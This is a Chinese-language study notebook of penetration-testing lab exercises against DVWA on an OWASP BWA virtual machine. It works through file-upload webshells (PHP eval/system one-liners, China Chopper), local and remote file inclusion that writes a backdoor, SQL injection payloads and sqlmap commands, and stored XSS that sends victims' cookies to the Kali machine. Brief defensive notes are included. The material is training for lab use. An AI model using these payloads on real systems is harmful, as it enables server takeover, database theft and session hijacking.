hacker-learning
攻击工具（用于我们自己的业务环境或者授权以后的相应测试） - 中国菜刀 - Burpsuite
攻击环境
靶机：OWASP Broken Web Apps (BWA) VM1.2.7
php 版本
php -v |
攻击机 / 渗透机：Kali 2019.3 - VMware tools 安装
VMware 联网方式
- NAT
- NAT 交换机
- 地址转换
- 外部机器无法访问内部虚拟机
- 桥接
- 和物理主机的 IP 一致 kali 联网方式：https://nimdati.com/2020/01/18/kali-linux-virtualbox-2-network-adapters-nat-host-only-dhcp/
# 重新获取IP
# 1. 重启机器
# 2. dhclient
dhclient -r eth0 # -r release 人工释放IP
dhclient -v eth0 # 分配IP
dhclinet eth0
- 和物理主机的 IP 一致
文件上传漏洞渗透攻击
原理
日常渗透测试中用得最多的一个漏洞，用它获得服务器权限最快最直接最有效，“文件上传”本身没有问题，有问题的是文件上传后，服务器怎么处理、解释文件，有没有经过检测验证，如果服务器的处理逻辑做的不够安全，则会导致严重的后果
指由于程序员未对上传的文件进行严格的验证和过滤、没有限制上传类型或者限制不严格被绕过，而导致的用户可以越过其本身权限向服务器上上传可执行的动态脚本文件，这里上传的文件可以是木马，病毒，恶意脚本或者 WebShell 等，导致网站被控制和服务器沦陷等，主要攻击 Web 服务
正常的文件一般是文档、图片、视频等，Web 应用收集之后放入后台储存，需要的时候再调出来返回；如果恶意文件如 PHP、ASP 等执行文件绕过 Web 应用并顺利执行，相当于黑客直接拿到了 Webshell，则可以拿到 Web 应用的数据，执行删除 Web 文件、本地提权、拿下服务器甚至整个内网等操作
webshell 常常被称为入侵者通过网站端口对网站服务器的某种程度上操作的权限
由于 webshell 其大多是以动态脚本的形式(asp、php、jsp)出现，也称之为网站的后门工具
webshell 是 web 应用类似于 bash 的 shell 应用程序，bash 是控制 Linux 系统的，webshell 控制网站

DVWA 的 Upload 测试
- low security
- 能够成功上传 php 文件(上传任意文件类型)
- 会在页面显示路径
../../hackable/uploads/webshell.php，在浏览器中输入http://192.168.50.129/dvwa/vulnerabilities/upload/../../hackable/uploads/webshell.php得到地址http://192.168.50.129/dvwa/hackable/uploads/webshell.php - 上传 php，内容为
<?php @eval($_POST['pass']);?>(一句话木马)，pass 为中国菜刀的密码php中
@:阻止警告输出，不显示错误信息
$:变量
&:变量的地址
eval( string $code) — 把字符串作为PHP代码执行，允许执行任意 PHP 代码
该字符串必须是合法的 PHP 代码，且必须以分号结尾 - 打开中国菜刀，右键添加，输入
http://192.168.50.129/dvwa/hackable/uploads/webshell.php和密码，右键文件管理，能够看到所有文件 
if (isset($_POST['Upload'])) {
$target_path = DVWA_WEB_PAGE_TO_ROOT."hackable/uploads/";
$target_path = $target_path . basename( $_FILES['uploaded']['name']);
if(!move_uploaded_file($_FILES['uploaded']['tmp_name'], $target_path)) {
echo '<pre>';
echo 'Your image was not uploaded.';
echo '</pre>';
} else {
echo '<pre>';
echo $target_path . ' succesfully uploaded!';
echo '</pre>';
}
}
Webshell
- 小马：一句话木马，即整个 shell 代码量只有一行，一般是系统执行函数
- 大马：代码量和功能比小马多，一般会进行二次编码加密，防止被安全防火墙 WAF /入侵系统 IDS 检测到
# php代码(一) 名称shell1.php
# 上传至dvwa的后端
# eval使用php函数，例如phpinfo()
# REQUEST是在网页端输入变量访问
# POST则是使用像中国菜刀之类的工具连接，是C/S架构
eval($_REQUEST['pass']);
# 在浏览器URL栏中输入http://192.168.50.129/dvwa/hackable/uploads/shell1.php?pass=phpinfo();
# pass同eval函数方括号中的值
# 则页面会展示phpinfo()函数的结果，其他php函数同理
# php代码(二) 名称shell2.php
# system使用Linux系统命令，例如ls,cp,rm
system($_REQUEST['pass']);
http://192.168.50.129/dvwa/hackable/uploads/shell2.php?pass=cat /etc/passwd
http://192.168.50.129/dvwa/hackable/uploads/shell2.php?pass=id
-----------------------
# 中国菜刀之php代码
eval($_POST[123]); - medium security
- 绕过类型上传文件，文件 mime 类型
- 限制文件类型和大小 image/jpeg(支持.jpg .jpeg 文件)并不是指扩展名，而是指 MIME 类型(媒体类型 Multipurpose Internet Mail Extensions 是一种标准，用来表示文档、文件或字节流的性质和格式)，位于 html 的 content-type，告知对方是什么类型的文件，用什么打开。MIME 简介
if (isset($_POST['Upload'])) {
$target_path = DVWA_WEB_PAGE_TO_ROOT."hackable/uploads/";
$target_path = $target_path . basename($_FILES['uploaded']['name']);
$uploaded_name = $_FILES['uploaded']['name'];
$uploaded_type = $_FILES['uploaded']['type'];
$uploaded_size = $_FILES['uploaded']['size'];
if (($uploaded_type == "image/jpeg") && ($uploaded_size < 100000)){
if(!move_uploaded_file($_FILES['uploaded']['tmp_name'], $target_path)) {
echo '<pre>';
echo 'Your image was not uploaded.';
echo '</pre>';
} else {
echo '<pre>';
echo $target_path . ' succesfully uploaded!';
echo '</pre>';
}
}
else{
echo '<pre>Your image was not uploaded.</pre>';
}
}
- 限制文件类型和大小
- 绕过类型上传文件，文件 mime 类型
high security
- 上传一句话图片木马，文件后缀限制
- 此时修改 Content-Type 无用，因为此处限制的不是类型，而是后缀
if (isset($_POST['Upload'])) {
$target_path = DVWA_WEB_PAGE_TO_ROOT."hackable/uploads/";
$target_path = $target_path . basename($_FILES['uploaded']['name']);
$uploaded_name = $_FILES['uploaded']['name'];
$uploaded_ext = substr($uploaded_name, strrpos($uploaded_name, '.') + 1);
$uploaded_size = $_FILES['uploaded']['size'];
if (($uploaded_ext == "jpg" || $uploaded_ext == "JPG" || $uploaded_ext == "jpeg" || $uploaded_ext == "JPEG") && ($uploaded_size < 100000)){
if(!move_uploaded_file($_FILES['uploaded']['tmp_name'], $target_path)) {
echo '<pre>';
echo 'Your image was not uploaded.';
echo '</pre>';
} else {
echo '<pre>';
echo $target_path . ' succesfully uploaded!';
echo '</pre>';
}
}
else{
echo '<pre>';
echo 'Your image was not uploaded.';
echo '</pre>';
}
}
getimagesize：通过读取文件头，返回图片的长、宽等信息，如果没有相关的图片文件头，函数会报错 - 限制上传文件的文件头必须为图像类型
strrpos(string,find,start)
函数返回字符串 find 在另一字符串 string 中最后一次出现的位置，如果没有找到字符串则返回 false，可选参数 start 规定在何处开始搜索
- 既然一定要是上传图片形式的文件，可以用 copy 将一句话木马和一张图片合并起来 【参照文件包含漏洞攻击】
- 新建 hack.php(写入一句话木马)和 hack.png
copy hack.png/b+hack.php/a hack1.png，打开 hack1 可以看到，一句话木马藏到了最后- Upload，中国菜刀地址栏填入http://192.168.50.129/dvwa/vulnerabilities/fi/?page=/var/www/dvwa/hackable/uploads/hack1.png
- 新建 hack.php(写入一句话木马)和 hack.png
- %00 截断的方法可以轻松绕过文件名的检查，但是需要将上传文件的文件头伪装成图片 【未成功】
# 原理分析
0x00，%00，/00之类的截断，都是一样的，只是不同表示而已
# %00截断
URL-encode ASCII Value
%00 0
> 在URL表示中%00表示ASCII码中的0
> ASCII码中的0作为特殊字符保留，表示字符串结束
> 当URL中出现%00时就会认为读取已结束
https://mp.csdn.net/upfiles/?filename=test.txt 此时输出的是test.txt
加上%00
https://mp.csdn.net/upfiles/?filename=test.php%00.txt 此时输出的是test.php
就绕过了后缀限制，可以上传webshell
# 0X00截断
----待补充
- 参考资料：
- https://blog.csdn.net/csdnmmd/article/details/80164823
- https://www.cnblogs.com/zhengna/p/12764684.html
- https://zhuanlan.zhihu.com/p/35932383
中国菜刀
使用简介
- 文件管理
- 虚拟终端
- 数据库管理
- 编辑 SHELL
- 地址：shell 文件地址 + shell 连接密码
- “配置”下输入
<T>MYSQL</T>
<H>localhost</H>
<U>root</U>
<P>owaspbwa</P> - shell 类型和字符集
- 测试指令
use mysql
show tables;
select * from mysql.user;
select * from dvwa.users;
- 编辑 SHELL
- 设置启动密码
- 网站扫描 - 少用
原理解析
文件上传漏洞渗透防御
在代码层面的检测：对文件的后缀等进行相应的检测和限制
在前端部署 web 应用防火墙，对某些带有恶意特征信息的文件进行拦截，查看是否有 eval 和 POST 的标记
怀疑有木马，从网站文件中过滤关键字
# -R递归
# 在文件中搜索
egrep -R 'eval\(\$_POST\[' /var/www/dvwa
fgrep -R 'eval($_POST[' /var/www/dvwa
文件包含漏洞渗透攻击 File Inclusion
文件包含是正常的，类似于 C 语言中 include 各种头文件，不可能把所有代码和所有功能都写在一个文件中(1.内容过长；2.重复编码)
原理
文件包含即程序通过包含函数调用本地或远程文件，以此来实现拓展功能。被包含的文件可以是各种文件格式，而当文件里面包含恶意代码，则会形成远程命令执行或文件上传漏洞。文件包含漏洞主要发生在有包含语句的环境中，例如 PHP 所具备 include、require 等包含函数
当服务器开启allow_url_include选项时，就可以通过 php 的某些特性函数(include(), require()和 include_once(), require_once())利用 url 去动态包含文件，此时如果没有对文件来源进行严格审查，就会导致任意文件读取或者任意命令执行
本地文件包含：被包含的文件在服务器本地；远程文件包含漏洞：被包含的文件在第三方服务器，是因为开启了 php 配置中的allow_url_fopen选项(选项开启之后，服务器允许包含一个远程的文件)
远程文件包含较本地文件包含容易，因为本地文件包含需要黑客把恶意文件传输到本地，而远程文件包含是主动访问 webserver 上的内容
服务器通过 php 的特性(函数)去包含任意文件时，由于要包含的这个文件来源过滤不严格，从而可以包含一个恶意文件



fputs(fopen('muma.php','w'),'<?php @eval($_POST[123]);?>'); |
图片一句话木马：图片中不是一句话木马，因为无法执行，中国菜刀连不上，把代码放在图片中，中国菜刀连上了也无法使用。c.jpg 中的代码执行并生成 webshell
上传一句话木马图片容易，难点在于图片里面的代码能不能执行，也取决于图片文件能不能被包含。在执行过程中，我们可能会看到乱码，但是在乱码之中也会有正常代码的执行
low security
对包含的文件没有进行任何的过滤，可以进行包含任意的文件
$file = $_GET['page']; //The page we wish to display环境中给出的地址如下：http://192.168.50.129/dvwa/vulnerabilities/fi/?page=include.php，则我们在/var/www/dvwa/vulnerabilities/fi/目录下创建文件 1.php，写入
<?php echo "hihi";?>
在浏览器中输入http://192.168.50.129/dvwa/vulnerabilities/fi/index.php?page=1.php 或者是http://192.168.50.129/dvwa/vulnerabilities/fi/?page=1.php，则会运行 1.php 代码
或者尝试包含账号密码、系统信息、敏感文件
http://192.168.50.129/dvwa/vulnerabilities/fi/?page=/etc/passwd
http://192.168.50.129/dvwa/vulnerabilities/fi/?page=/etc/mysql/my.cnf
http://192.168.50.129/dvwa/vulnerabilities/fi/?page=/etc/apache2/apache2.conf
http://192.168.50.129/dvwa/vulnerabilities/fi/?page=/etc/hosts
http://192.168.50.129/dvwa/vulnerabilities/fi/?page=/var/www/dvwa/robots.txt
# robots 网络爬虫排除标准 是爬虫爬取的公共协议和行业规范，表示哪些不能爬取
本地文件包含+webshell
制作一句话图片木马
- 工具 edjpgcom：https://blog.csdn.net/santtde/article/details/92849299 - 说实话未成功
- 手动制作：https://www.15qq.cn/hacker_script/12.html - 通过 copy
上传图片木马文件 - 通过文件上传漏洞 upload
- 此时可以在浏览器中打开图片(通过访问 /hackable/uploads 目录)，图片正常显示，但是图片中包含的 shell 并不会执行，因为服务器不会执行静态资源
- 我们需要的是图片在服务器被当成程序执行
执行文件包含并生成后门
图片位置不一致
# 文件上传目录
/var/www/dvwa/hackable/uploads/
# 文件包含目录
/var/www/dvwa/vulnerabilities/fi/
# 相对路径
192.168.50.129/dvwa/vulnerabilities/fi/?page=../../hackable/uploads/shell.JPG
# 绝对路径
192.168.50.129/dvwa/vulnerabilities/fi/?page=/var/www/dvwa/hackable/uploads/shell.JPG
通过文件包含漏洞访问图片后，页面显示如下

通过菜刀连接 webshell
- 图片中的木马会执行，在
/var/www/dvwa/vulnerabilities/fi/目录下生成一个 php 文件，使用该 php
- 图片中的木马会执行，在
参考资料
- https://blog.csdn.net/Alexz__/article/details/102166392
- 踩坑，不会成功的情况
- 用 edjpgcom 工具
- 图片是 jpg
远程文件包含 + webshell
使用 kali 建立远程服务器
# 启动apache
systemctl start apache2
# 建立文件
vim /var/www/html/1.txt
<?fputs(fopen("shell.php","w"),'<?php eval($_POST[pass]);?>')?>
# 如果建立的是php文件，会出现一句话木马无法写入shell.php的情况
# 使用txt或者jpg进行远程文件包含文件包含
http://192.168.50.129/dvwa/vulnerabilities/fi/?page=http://192.168.50.128/1.txt
此时在/var/www/dvwa/vulnerabilities/fi 目录下会出现 shell.php 文件
菜刀通过输入
http://192.168.50.129/dvwa/vulnerabilities/fi/shell.php和 pass 密码进行连接
medium security
对本地没有限制
$file = $_GET['page']; // The page we wish to display
// Bad input validation
$file = str_replace("http://", "", $file);
$file = str_replace("https://", "", $file);远程文件包含+webshell
httphttp://://
hthttp://tp://
high security
- 硬编码写死，只能用 include.php 文件，利用白名单机制进行过滤，即很难再进行漏洞的利用
- 对包含的文件稍微做些检测
$file = $_GET['page']; //The page we wish to display
// Only allow include.php
if ( $file != "include.php" ) {
echo "ERROR: File not found!";
exit;
}
参考资料：https://www.freebuf.com/articles/web/119150.html
SQL 注入攻击 - 排在第一位的安全风险
通过构建特殊的输入作为参数传入web 应用程序，而这些输入大都是 SQL 语法里的一些组合，通过执行 SQL 语句进而执行攻击者所有的操作
其主要原因是程序没有细致地过滤用户输入的数据，导致非法数据入侵系统
- 对于 web 应用程序而言，用户核心数据存储在数据库中，例如 MySQL、SQL server、Oracle
- 通过 SQL 注入攻击，可以获取、修改、删除数据库信息，并且通过提权来控制 web 服务器等其他操作
- SQL 注入即攻击者通过构造特殊的 SQL 语句，入侵目标系统，导致后台数据库泄露数据的过程
- 因为 SQL 注入漏洞造成的严重危害性，所以常年稳居 OWASP TOP10 的榜首
SQL 注入的危害
- 拖库导致用户数据泄露
- 危害 web 等应用的安全
- 失去操作系统的控制权
- 用户信息被非法买卖
- 危害企业及国家的安全
SQL 基础回顾
登录 OWASP
表1：dvwa.users |
information_schema - 数据库字典
在里面看到的不一定是一切，得看权限
# show databases; 后有一个非常重要的库是 information_schema |
SQL 注入流程
SQL 注入的分类：数字型&字符型
最大的一个区别在于，数字型不需要单引号来闭合，而字符串一般需要通过单引号来闭合的
数字型： SELECT 列 FROM 表 WHERE 数字型列=值
字符型： SELECT 列 FROM 表 WHERE 字符型列=’值’
搜索型： SELECT * FROM 表 WHERE where 被搜索的列 like ‘%值%’数字型注入：当输入的参数为整形时，如果存在注入漏洞，可以认为是数字型注入
测试步骤
1. 加单引号：假设对应的sql：select * from table where id=1’ 这时sql语句出错，程序无法正常从数据库中查询出数据，就会抛出异常；
2. 加 1 and 1=1：假设对应的sql：select * from table where id=1 and 1=1 语句执行正常，与只输入1的页面没有任何差异；
3. 加 1 加and 1=2：对应的sql：select * from table where id=1 and 1=2 语句正常执行，但是无法查询出结果，所以返回数据与原始网页存在差异
如果满足以上三点，则可以判断该URL存在数字型注入
如果这是字符型注入的话，我们输入以上语句之后应该出现如下情况：
select * from table where id = '1 and 1=1'
select * from table where id = '1 and 1=2'
查询语句将 and 语句全部转换为了字符串，并没有进行 and 的逻辑判断，所以不会出现以上结果
如果2，3步骤输入均出现正确结果，则能证明不是数字型注入字符型注入：当输入的参数为字符串时，称为字符型
测试步骤
1. 加单引号：select * from table where id=’1’’：由于加单引号后变成三个单引号，则无法执行，程序会报错；
2. 加 1’ and 1=1 此时sql 语句为：select * from table where id=’1’ and 1=1’ ,也无法进行注入，还需要通过注释符号将后面的单引号闭合；
> Mysql 有三种常用注释符：
> -- 注意，这种注释符后边有一个空格
> # 通过#进行注释
> /* */ 注释掉符号内的内容
3. 加 1’ and 1=2 -- zzr 此时sql语句为：select * from table where id=’1’ and 1=2 --zzr’，没有显示任何东西
如果满足以上三点，可以判断该url为字符型注入
select * from table where id = '1' and 1=1
语法正确，逻辑判断正确，所以返回正确
select * from table where id = '1' and 1=2
语法正确，但逻辑判断错误，所以没有显示
select * from table where id = "$id";
select * from table where id = '$id';SQL 注入分类可以按照参数类型分为数字型和字符型，还有一些常见的注入分类，例如
（1）POST：注入字段位于POST数据中；
（2）Cookie：注入字段位于Cookie数据中；
（3）延时注入：根据数据库延时特性的注入
（4）搜索注入：注入字段在搜索的位置；
（5）base64注入：注入字符经过base64编码后注入；
（7）错误注入：基于数据库错误信息的响应注入
常规思路：
1. 判断是否有SQL注入漏洞(通过web扫描工具，扫描SQL漏洞注入点)
2. 判断操作系统、数据库和web应用的类型，猜解关键数据库表及其重要字段与内容
3. 获取数据库信息，包括管理员信息及拖库，寻找后台登录
4. 加密信息破解，sqlmap可自动破解
5. 提升权限，获得sql-shell、os-shell、登录应用后台
手动注入实战
基于错误的注入 - 判断是否有注入漏洞
错误注入的思路是通过构造特殊的 sql 语句，根据得到的错误信息，确认 sql 注入点。通过数据库报错信息，也可以探测到数据库的类型和其它有用信息。通过输入单引号，触发数据库异常，通过异常日志诊断数据库类型，例如这里是 MySQL 数据库
low security
没有做安全过滤，直接将获取的值带入数据库语句
if(isset($_GET['Submit'])){
// Retrieve data
$id = $_GET['id'];
$getid = "SELECT first_name, last_name FROM users WHERE user_id = '$id'";
$result = mysql_query($getid) or die('<pre>' . mysql_error() . '</pre>' );
$num = mysql_numrows($result);
$i = 0;
while ($i < $num) {
$first = mysql_result($result,$i,"first_name");
$last = mysql_result($result,$i,"last_name");
echo '<pre>';
echo 'ID: ' . $id . '<br>First name: ' . $first . '<br>Surname: ' . $last;
echo '</pre>';
$i++;
}
}
字符型注入
当前 SQL 所使用的库为 dvwa，搜索框正常输入 1 ，能够查询处结果
输入单引号，产生了语法错误(有注入的可能性、有注入点，如果弹出信息表示输入错误，说明单引号不能作为输入，被过滤了)，说明能够接受单引号作为输入，即用户的输入没有被正当处理，如果后台的处理能够主动过滤单引号(不会把单引号带入 sql 语句中)，则也不会引起错误了 - 通过单引号构造语句
# You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''''' at line 1
SELECT first_name, last_name FROM users WHERE user_id = ''
select first_name,last_name from dvwa.users where user_id = '1'
select first_name,last_name from dvwa.users where user_id = '''
# 获取当前数据库
1' union select 1,database() #
# 获取数据库中的表
1' union select 1,group_concat(table_name) from information_schema.tables where table_schema=database() #
# 获取表中的字段名
1' union select 1,group_concat(column_name) from information_schema.columns where table_name='users' #
# 得到数据
1' union select group_concat(user_id,first_name),group_concat(password) from users #
# 此处password是密文，需要MD５转换
基于布尔的注入
布尔逻辑注入的思路是闭合 SQL 语句、构造 or 和 and 逻辑语句、注释多余的代码
SELECT first_name, last_name FROM users WHERE user_id = '' |
基于 UNION 注入
# UNION语句用于联合前面的SELECT查询语句，合并查询更多的信息 |
基于时间的盲注
有些数据库对错误信息做了安全配置，使得无法通过以上的方式探测到注入点，此时可以通过设置 sleep 语句来探测注入点
SQL Injection (Blind) 盲注
输入单引号没反应
1' and sleep(5) --
# 说明我们给定的附加语句可以执行
sqlmap 自动化注入
SQL 注入比较好用的工具，首推开源工具 SQLmap，是一个国内外著名的安全稳定性测试工具，可以用来进行自动化检测，利用 SQL 注入漏洞，获取数据库服务器的权限。它具有功能强大的检测引擎、针对各种不同类型数据库的安全稳定性测试的功能选项，包括获取数据库中储存的数据，访问操作系统文件甚至可以通过外带数据连接的方式执行操作系统命令
SQLmap 支持 MySQL、Oracle、PostgreSQL、Microsoft SQL Server、Microsoft Access、IBM DB2、SQLite、Firebird、Sybase 和 SAP MaxDB 等数据库的各种安全漏洞检测
在 kali 上自带
sqlmap --version |
GET 方法注入
先找一个无需登录的靶机 QWASP Mutillidae Ⅱ > OWASP 2013 > A1 - Injection(SQL) > SQLi - Extract Data > User Info(SQL)
sqlmap -u "http://192.168.50.129/mutillidae/index.php?page=user-info.php&username=purple&password=1234&user-info-php-submit-button=View+Account+Details" --batch -p username |


# 自动化完成 |
需要帐号登录的靶机：DVWA
通过 cookie：早期用户名密码是保存在 cookie 当中，不安全；如今不保存在客户端，而保存在服务器端的 session 当中。服务器会给客户端生成一个 session_id，客户端把 session_id 保存在 cookie 当中，在 session 没有过期之前，客户端持有这个 session_id 都可以无需登录访问页面。
firefox 的插件：Cookiebro / Cookie Quick Manager
Google Chrome:

# 要写全网址
# 指定参数 -p
sqlmap -u "http://192.168.50.129/dvwa/vulnerabilities/sqli/?id=2&Submit=Submit" -p id --batch
sqlmap -u "http://192.168.50.129/dvwa/vulnerabilities/sqli/?id=2&Submit=Submit#" -p id --batch --cookie="xxx=xxx;xxx=xxx"
sqlmap -u "http://192.168.50.129/dvwa/vulnerabilities/sqli/?id=2&Submit=Submit#" -p id --batch --dbms=mysql

其他数据操作同理

POST 方法注入
利用 sqlmap 进行 post 注入的方式有三种：
- Burpsuite 抓包，然后保存抓取到的内容(提交表单的数据包，含有用户名密码信息)。例如：保存为 post.txt,然后把它放至某个目录下。运行 sqlmap 并使用如下命令：sqlmap -r post.txt -p id，这里参数 -r 是让 sqlmap 加载我们的 post 请求 post.txt，-p 指定注入用的参数
- 自动搜索表单的方式：sqlmap -u "http://192.168.160.1/sqltest/post.php" --forms
- 指定一个参数的方法：sqlmap -u "http://xxx.xxx.com/Login.asp" --data "n=1&p=1"
参考资料：
- https://hackertarget.com/sqlmap-post-request-injection/
- https://blog.csdn.net/u011781521/article/details/58594941
数据获取
- 猜解当前数据库名
- 猜解数据库中的表名
- 猜解表中的字段名
- 猜解数据
提权操作
# 与数据库交互 |
综合实例
1. 通过Google搜索可能存在注入的页面 |
dvwa sql injection
medium security
if (isset($_GET['Submit'])) {
// Retrieve data
$id = $_GET['id'];
$id = mysql_real_escape_string($id);
$getid = "SELECT first_name, last_name FROM users WHERE user_id = $id";
$result = mysql_query($getid) or die('<pre>' . mysql_error() . '</pre>' );
$num = mysql_numrows($result);
$i=0;
while ($i < $num) {
$first = mysql_result($result,$i,"first_name");
$last = mysql_result($result,$i,"last_name");
echo '<pre>';
echo 'ID: ' . $id . '<br>First name: ' . $first . '<br>Surname: ' . $last;
echo '</pre>';
$i++;
}
}数字型注入
# 获取当前数据库
1 union select 1,database() #
# 获取数据库中的表
1 union select 1,group_concat(table_name) from information_schema.tables where table_schema=database() #
# 获取表中的字段名
1 union select 1,group_concat(column_name) from information_schema.columns where table_name='users' #
1 union select 1,group_concat(column_name) from information_schema.columns where table_name=0x7573657273 #
# 得到数据
1 union select group_concat(user_id,first_name),group_concat(password) from users #
# 此处password是密文，需要MD５转换- 获取表中的字段名：
1 union select 1,group_concat(column_name) from information_schema.columns where table_name='users' #，会报错You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '\'users\' #' at line 1，是因为mysql_real_escape_string函数是转义了 SQL 语句字符串中的特殊字符，如输入单引号'则处理时会在其前面加上右斜杠，如果语句错误则输出相应的错误信息。其中受影响的字符如下：\x00 \n \r \ ' " \x1a。所以更换注入方式，不要用单引号，可以用 16 进制绕过，将 users 变为 0x7573657273
- 获取表中的字段名：
high security
if (isset($_GET['Submit'])) {
// Retrieve data
$id = $_GET['id'];
$id = stripslashes($id);
$id = mysql_real_escape_string($id);
if (is_numeric($id)){
$getid = "SELECT first_name, last_name FROM users WHERE user_id = '$id'";
$result = mysql_query($getid) or die('<pre>' . mysql_error() . '</pre>' );
$num = mysql_numrows($result);
$i=0;
while ($i < $num) {
$first = mysql_result($result,$i,"first_name");
$last = mysql_result($result,$i,"last_name");
echo '<pre>';
echo 'ID: ' . $id . '<br>First name: ' . $first . '<br>Surname: ' . $last;
echo '</pre>';
$i++;
}
}
}PHP stripslashes()函数的作用是删除由 addslashes() 函数添加的反斜杠；PHP addslashes()函数在预定义字符(
' " \)之前添加反斜杠此时输入单引号' 页面没有报错，所以证明后台能够处理单引号
在 high security 中，PHP 的 magic_quotes_gpc 被自动设为 on，magic_quotes_gpc 被称为魔术引号，开启它之后，可以对所有的 GET、POST 和 COOKIE 传值的数据自动运行 addslashes() 函数，所以这里才要使用 stripslashes() 函数去除。magic_quotes_gpc 功能在 PHP5.3.0 中已经废弃并且在 5.4.0 中已经移除了，这也是为什么在 DVWA 中一直强调使用 mysql_real_escape_string() 函数进行过滤的原因吧
在执行查询之前，使用了 if 语句进行判断，判断的条件是一个 is_numeric() 函数，即判断用户输入的数据是否是数字型，只要不是数字型就一概报错，则 and、or、select 等语句都无法执行了。最后在具体执行查询时，还要求 $id 是字符型
代码层面防护
- 对于数字型注入，只要使用 if 语句，并以 is_number() 函数作为判断条件就足以防御了。
- 对于字符型注入，只要对用于接收用户参数的变量，用 mysql_real_escape_string() 函数进行过滤也就可以了。
参考资料：
- https://blog.51cto.com/yttitan/1720191
dvwa sql injection(Blind)
需要换一个靶机
- low security
- medium security
- high security
参考资料：
- https://blog.csdn.net/zjw0411/article/details/79714645
- https://www.cnblogs.com/bmjoker/p/8797968.html
- https://www.freebuf.com/articles/web/120985.html
PDO 技术
|
PDO 全名 PHP Data Object(PHP 数据对象)，为 PHP 访问数据库定义了一个轻量级的一致接口，提供了一个数据访问抽象层，即不管使用哪种数据库，都可以用相同的函数（方法）来查询和获取数据。在 bindParam() 方法中，默认绑定的参数类型就是字符串，此处规定为 int 类型。
XSS 跨站脚本攻击
XSS 简介
跨站脚本(cross site script)为了避免与样式 css 混淆，所以简称为 XSS
是一种经常出现在 web 应用中的计算机安全漏洞，也是 web 中最主流的攻击方式，对客户端进行攻击(挂马)
是指恶意攻击者利用网站没有对用户提交数据进行转义处理或者过滤不足的缺点，进而添加一些代码，嵌入到 web 页面中去，使别的用户访问都会执行相应的嵌入代码，从而盗取用户资料、利用用户身份进行某种动作或者对访问者进行病毒侵害的一种攻击方式
XSS 攻击的危害：
- 盗取各类用户帐号，如机器登录账号、用户网银账号、各类管理员账号
- 控制企业数据，包括读取、篡改、添加、删除企业敏感数据的能力
- 盗取企业重要的具有商业价值的资料
- 非法转账
- 强制发送电子邮件
- 网站挂马
- 控制受害者机器向其他网站发起攻击
XSS 原理

XSS 主要原因：过于信任客户端提交的数据
反射型 XSS 是一种非持久性的攻击，又称为非持久性跨站点脚本攻击，是最常见的。漏洞产生的主要原因是攻击者注入的数据反映在响应中，一个典型的非持久性 XSS 包含一个带 XSS 攻击向量的链接(即每次攻击需要用户的点击)。指的是恶意攻击者往 Web 页面里面插入恶意代码，当用户浏览该页面的时候，嵌入 Web 里面的代码会被执行，从而达到恶意攻击用户的目的。这里插入的恶意代码并没有保存在目标网站，需要引诱用户主动点击一个链接到目标网站的恶意链接来实施攻击
存储型 XSS(Stored XSS) 又称为持久型跨站点脚本，它一般发生在 XSS 攻击向量(一般指 XSS 攻击代码)存储在网站数据库，当一个页面被用户打开的时候执行。每当用户打开浏览器，脚本执行。持久的 XSS 相比于非持久的 XSS 攻击危害性更大，因为每当用户打开页面、查看内容时，脚本将自动执行
图解：web 服务器的某个网站存在存储型 XSS 漏洞，黑客将恶意代码注入 web 服务器，web 服务器存储在本地，用户访问含有恶意代码的页面，自动执行恶意代码，从而去访问黑客机器上钩，黑客机器用 BeEF 控制用户机器
构造 XSS 脚本
常用的 HTML 标签
<iframe> iframe元素会创建包含另外一个文档的内联框架(即行内框架) |
常见 JavaScript 方法
alert 显示带有一条指定消息和一个确认按钮的警告框 |
构造 XSS 脚本
# 弹框警告 |
反射型 XSS (XSS reflected)
搜索框，用户提交恶意代码被执行
low security
if(!array_key_exists ("name", $_GET) || $_GET['name'] == NULL || $_GET['name'] == ''){
$isempty = true;
} else {
echo '<pre>';
echo 'Hello ' . $_GET['name'];
echo '</pre>';
}代码直接引用了 name 参数，并没有任何的过滤和检查
手工 XSS：用户访问网页中的 XSS 链接，服务器接受并返回，用户执行反射回来的代码并解析执行
首先在输入框中输入
<script>alert('xss')</script>，然后把此时的 URL(http://192.168.50.129/dvwa/vulnerabilities/xss_r/?name=%3Cscript%3Ealert%28%27xss+attack%27%29%3C%2Fscript%3E#)给任何一个机器，该机器点开链接都能触发 XSS 攻击弹窗警告；页面重定向；...
medium security
if(!array_key_exists ("name", $_GET) || $_GET['name'] == NULL || $_GET['name'] == ''){
$isempty = true;
} else {
echo '<pre>';
echo 'Hello ' . str_replace('<script>', '', $_GET['name']);
echo '</pre>';
}对输入进行了过滤，基于黑名单的思想，使用 str_replace 函数将输入中的
<script>删除，这种防护机制是可以被轻松绕过的# 1. 大小写混淆绕过
# 2. 双写绕过
<sc<script>ript>alert('xss')</script>
high security
if(!array_key_exists ("name", $_GET) || $_GET['name'] == NULL || $_GET['name'] == ''){
$isempty = true;
} else {
echo '<pre>';
echo 'Hello ' . htmlspecialchars($_GET['name']);
echo '</pre>';
}- php htmlspecialchars()：把预定义的字符( "<" （小于）、">" （大于）、& （和号）、" （双引号）、' （单引号）)转换为 HTML 实体
存储型 XSS (XSS stored)
攻击者将带有 XSS 攻击的链接放在网页的某个页面，例如评论框等；用户访问此 XSS 链接并执行，由于存储型 XSS 能够攻击所有访问此页面的用户，所以危害非常大
留言板，用户访问网站即可触发
low security
if(isset($_POST['btnSign']))
{
$message = trim($_POST['mtxMessage']);
$name = trim($_POST['txtName']);
// Sanitize message input
$message = stripslashes($message);
$message = mysql_real_escape_string($message);
// Sanitize name input
$name = mysql_real_escape_string($name);
$query = "INSERT INTO guestbook (comment,name) VALUES ('$message','$name');";
$result = mysql_query($query) or die('<pre>' . mysql_error() . '</pre>' );
}- 输入用户名 1111，密码为
<script>alert('xss')</script>，然后任何一个机器点击页面的 XSS restored 都会触发 XSS 攻击- 获取 cookie：渗透机 Kali Linux 操作；肉鸡 windows
构建收集 cookie 服务器
systemctl start apache2
vim /var/www/html/cookie_rec.php
<?php
$cookie = $_GET['cookie'];
$log = fopen("cookie.txt","a");
fwrite($log,$cookie . "\n");
fclose($log);
?>
chown -R www-data.www-data /var/www/构造 XSS 代码并植入到 web 服务器
# 通过渗透机植入XSS代码
<script>window.open('http://192.168.50.128/cookie_rec.php?cookie='+document.cookie)</script>
# 注：IP为Kali Linux的IP
# 注：先清除之前植入的XSS代码 -> dvwa Setup
# 前端有限制，F12，修改前端的maxlength
等待肉鸡触发 XSS 代码并将 cookie 发送至 Kali

cookie 利用
